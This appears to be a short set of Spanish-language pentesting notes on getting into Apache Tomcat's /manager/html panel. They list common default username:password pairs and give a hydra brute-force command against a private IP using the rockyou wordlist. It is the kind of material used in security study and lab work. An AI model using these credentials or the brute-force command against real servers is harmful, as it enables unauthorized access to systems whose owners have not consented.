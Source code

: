 [[Apuntes]]
## Credenciales por defecto

Probar estas credenciales en el `/manager/html` esta ruta tiene dentro una `/upload` la cual se puede subir archivos pero esta protegido por HTTP auth.


```
admin:admin
tomcat:tomcat
admin:
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```

## Fuerza bruta

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f 192.168.1.43 http-get /manager/html -s 8080
```

Hacer una lista con users.txt con admin,tomcat etc.

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat